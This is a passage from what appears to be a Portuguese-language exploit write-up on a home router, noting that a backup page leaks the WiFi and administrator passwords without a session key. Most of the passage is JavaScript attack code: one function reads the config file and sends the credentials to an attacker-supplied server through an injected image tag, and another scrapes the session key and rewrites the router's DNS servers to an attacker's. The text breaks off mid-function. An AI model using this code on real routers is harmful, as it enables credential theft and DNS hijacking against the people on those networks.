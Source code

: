 
Fuçando mais um pouco encontro a página backupsettings.cmd que nada mais é um XML com todas as configurações do modem, inclusive a senha do WiFi em Base64 e a senha do Administrador em PlainText. O mais legal é que não precisa da sessionKey.

				function get_passwords(attackers_server) {
					// attackers_server = servidor para enviar as credenciais
					// ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
					// Pegar a senha do WiFi e a senha do administrador
					// através do backup das configurações

					xmlhttp=new XMLHttpRequest();
					xmlhttp.open("GET", "/backupsettings.cmd", false); // XML da configuração do roteador
					xmlhttp.send();
					var k = xmlhttp.responseText.indexOf("Admin") ; // Procurando pela senha do Administrador
					var y = xmlhttp.responseText.indexOf("KeyPassphrase") ; // Procurando pela senha do WiFi
					// Adicionando uma imagem na página atual para enviar as credenciais através de GET para o servidor do atacante
					document.write('<img src="'+attackers_server+'?net='+ encodeURIComponent(xmlhttp.responseText.slice(k,k+100)+xmlhttp.responseText.slice(y,y+80))+'">'); 
				}

Por fim, mas não menos importante. Alterando o DNS do roteador nós conseguimos [DNS Poisoning](https://en.wikipedia.org/wiki/DNS_spoofing).

				function dns_poisoning(attackers_dns) {
					// attackers_dns = servidor DNS malicioso
					// ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ caralho esse código ta muito feio, desculpa mundo
					// Altera os servidores de DNS para o do atacante

					xmlhttp=new XMLHttpRequest();	
					xmlhttp.open("GET", "/rede-dnsv4.html", false); 
					xmlhttp.send();
					var w = xmlhttp.responseText.indexOf("Key") ;  // Procurando pelo sessionKey
					var sessionKey = xmlhttp.responseText.slice(w,w+20).match(/'([^']+)'/)[1] ; // Regex porque a key está dentro de aspas
					var i_wanip = xmlhttp.responseText.indexOf("wanip") ;
					var wanip = xmlhttp.responseText.slice(i_wanip,i_wanip+30).match(/'([^']+)'/)[1] ;
					var i_wansubnet = xmlhttp.responseText.indexOf("wansubnet") ; 
					var wansubnet = xmlhttp.responseText.slice(i_wansubnet,i_wansubnet+30).match(/'([^']+)'/)[1] ;
					var i_wangatewayip = xmlhttp.responseText.indexOf("wangatewayip") ; 
					var wangatewayip = xmlhttp.responseText.slice(i_wangatewayip,i_wangatewayip+30).match(/'([^']+)'/)[1] ;

					xmlhttp=new XMLHttpRequest();
					xmlhttp.open("GET", "/rede-dnsv4.cgi?enblDhcpClnt=0&wanIpAddress="+wanip+"&wanIfName=wanbridge&wanSubnetMask="+wansubnet+"&wanIntfGateway="+wangatewayip+"&dnsPrimary="+attackers_dns+"&dnsSecondary="+attackers_dns+"&sessionKey="+sessionKey, false);
					xmlhttp.send(); // Fazendo a requisiço para SALVAR as novas configurações do DNS

					// Depois de salvar, precisamos aplicar as configurações, fuck logic

					//Getting a brand NEW SessionKey
					xmlhttp=new XMLHttpRequest();	
					xmlhttp.open("GET", "/rede-dnsv4.html", false); // GET the DNS Config page
					xmlhttp.send();
					var w = xmlhttp.responseText.indexOf("Key") ;  // Procurando pelo sessionKey
					var sessionKey = xmlhttp.responseText.slice(w,w+20).match(/'([^']+)'/)[1] ; // Regex porque a key está dentro de aspas
